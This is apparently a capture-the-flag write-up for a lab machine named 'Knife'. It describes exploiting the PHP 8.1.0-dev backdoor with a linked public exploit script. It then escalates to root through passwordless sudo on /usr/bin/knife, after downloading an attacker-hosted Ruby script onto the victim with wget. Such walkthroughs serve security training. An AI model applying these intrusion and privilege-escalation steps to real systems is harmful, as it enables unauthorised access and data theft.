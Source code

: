 # Knife

# PHP-8.1.0-dev Backdoor
Server has a vulnerabilty because of backdoor set by the hacker in the dev branch of php.  
Additional info can be found in this script: https://dl.packetstormsecurity.net/2105-exploits/php_8.1.0-dev.py.txt  
And that's what I've used.

# user.txt
Modified script for my needs (removed extra code and made infinite loop of commands) then read the `/home/james/user.txt`

# root.txt
Found `/usr/bin/knife` could be run with `sudo` with *no password*.   
Created a script called `read.rb` (see in this directory) that reads `/root/root.txt` and then downloaded it with `wget` to the victim machine:
```bash
wget http://my-ip:8000/read.rb
```
I could've done this in smarted way, but let's leave this as it is.  
Then ran this:
````bash
sudo knife exec /home/james/read.rb
> *root flag*
```
